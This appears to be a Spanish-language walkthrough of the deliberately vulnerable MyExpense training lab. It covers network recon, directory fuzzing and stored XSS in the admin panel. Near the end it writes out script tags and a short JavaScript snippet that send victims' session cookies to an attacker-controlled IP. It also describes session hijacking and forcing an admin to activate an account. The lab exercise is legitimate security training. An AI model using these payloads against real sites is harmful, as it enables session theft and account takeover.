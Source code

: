 Hay un escenario dentro de esta maquina que es el siguiente: 
## Descripción

MyExpense es una aplicación web deliberadamente vulnerable que le permite entrenar en la detección y explotación de diferentes vulnerabilidades web. A diferencia de una aplicación "desafiante" más tradicional (que le permite entrenar en una sola vulnerabilidad específica), MyExpense contiene un conjunto de vulnerabilidades que necesita explotar para lograr todo el escenario.

## Escenario

Eres "Samuel Lamotte" y acabas de ser despedido por tu empresa "Furtura Business Informatique". Desafortunadamente debido a su salida apresurada, usted no tuvo tiempo para validar su informe de gastos para su último viaje de negocios, que todavía asciende a 750 . correspondiente a un vuelo de regreso a su último cliente.

Temiendo que su antiguo empleador puede no querer reembolsarle por este informe de gastos, usted decide hackearlo en la aplicación interna llamada **"MyExpense "** para gestionar los informes de gastos de los empleados.

Así que estás en tu coche, en el aparcamiento de la empresa y conectado al Wi-Fi interno (la clave todavía no ha sido cambiada después de tu salida). La aplicación está protegida por autenticación de nombre de usuario/contraseña y espera que el administrador aún no haya modificado o eliminado su acceso.

Sus credenciales eran: samuel/fzghn4lw

Una vez hecho el desafío, la bandera se mostrará en la aplicación mientras está conectada con su cuenta (samuel).

----

## fase de reconocimiento: 
utilizando arp-scan: 
![[Pasted image 20240222161344.png]]
Podemos ver que con el comando ip a obtenemos nuestro propia ip (192.168.1.89), y con arp-scan podemos ver que la ip de la maquina que queremos atacar es la (192.168.1.88).
Ahora también podemos utilizar el escaneo de nmap para asegurarnos de que este dato sea bueno: 
![[Pasted image 20240222161547.png]]
Vemos que esto nos confirma la información de que la maquina que queremos atacar es la 192.168.1.88
## Fase de reconocimiento de puertos: 

![[Pasted image 20240222165722.png]]
podemos hacer el escaneo de los puertos que nos dicen estar abiertos: 
![[Pasted image 20240223113123.png]]
bueno ya sabemos que tenemos una pagina web en la maquina a explotar: 
![[Pasted image 20240223113634.png]]
para obtener más información podemos ver que tecnologías ocupa la pagina web, con wappalizer o whatweb, aplicaremos ambas para poder estar seguros de la información: 
![[Pasted image 20240223114030.png]]
![[Pasted image 20240223114107.png]]
con esto no tenemos nada interesante aun por lo que tenemos que empezar a hacer fuzzing de la página para poder encontrar directorios: 
![[Pasted image 20240223114535.png]]
ya que vemos que los status de estos son 301, podemos hacer por busquedas especificas con el parametro `-x php,php.bak,bak` estos son algunos de las extenciones que más se ocupan: 
![[Pasted image 20240223114909.png]]
vemos que hay un index.php, signup.php, si entramos a signup.php podremos ver un panel en el cual veremos que podemos crear una cuenta.
![[Pasted image 20240223115139.png]]
rellenamos con dato y al tratar de enviar los datos para crear la cuenta no te deja por que no habilitado el botón de enviar, esto lo podemos habilitarlo cambiando un parametro en el codigo fuente, para esto es necesario apretar el `<F12>`, inspeccionamos la pagina, vamos al boton y borramos la variable que se llama `disabled=""` 
![[Pasted image 20240223120312.png]]
al intentar loguearnos con esta cuenta, pasara que no podemos entrar, por que falta la autorización de la administración:
![[Pasted image 20240223120424.png]]
ahora si vamos a la dirección http://192.168.1.88/admin/admin.php, podemos ver un panel con las cuentas si están habilitadas o deshabilitadas, insertamos otro usuario para ver si nos interpreta lenguaje html, por lo que vemos si nos interpreta etiquetas html, por lo que ahora sería bueno intentar hacer un XSS. 
![[Pasted image 20240223125447.png]]
ahora intentaremos hacer un usuario que contenga un script alert hecho en js. 
![[Pasted image 20240223132100.png]]
con esto podemos ver que si nos interpreta código js, ahora podríamos hacer un External JavaScript source: 
en la cual emplearemos la siguiente etiqueta `<script src="http://192.168.1.89/cookie.js"></script>`
creamos un usuario con esa etiqueta, y hacemos un script llamado cookie.js.
![[Pasted image 20240223135916.png]]
en el cual tomamos la cookie de un usuario que esta haciendo peticiones dentro de la admin.php.
la respuesta hacia el servidor es la siguiente: 
![[Pasted image 20240223140034.png]]
donde vemos que la cookie es `PHPSESSID=25lk998qdcpc1u51l50fnrbqf4` 
ahora que ya tenemos la cookie de un usuario podemos ir a la pagina /admin/admin.php y ver si estamos autenticados:
![[Pasted image 20240223155144.png]]
pasa que no se puede tener en 2 navegadores distintos la misma sesión por lo que tendríamos que investigar como hacer que el usuario logueado habilite la cuenta que nosotros queremos habilitar, en este caso tenemos que hacer un cambio en el script.
si apretamos en la opción de samuel lamotte, para activarlo podemos ver que se manda la petición a través de la url de la pagina de la siguiente forma: 
![[Pasted image 20240223155752.png]]
Lo que tenemos que hacer es modificar el script para que en ves de tomar la cookie de sesión, haga la petición del cambio a activo. 
![[Pasted image 20240223163623.png]]
ese es el script que se enviará.
abrimos el servidor para que se haga la petición: 
![[Pasted image 20240223163713.png]]
ahora podemos ver que nuestra cuenta (slamotte/fzghn4lw) esta activa: 
![[Pasted image 20240224125522.png]]
ahora autenticado, podemos ir a expense reports, para poder enviar nuestro reporte y poder recibir nuestro dinero: 
![[Pasted image 20240224130623.png]]estando en el home podemos hacer una publicacion con las siguientes etiquetas:
`<script src="192.168.1.81/pwned.js"></script>`
en el cual el archivo pwned es un script sencillo para poder obtenes las cookies de los otros usuarios: 
```
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.81/?cookie=' + document.cookie); 
request.send(); 
```
y con eso deberíamos poder obtener las cookies de los demás colaboradores.

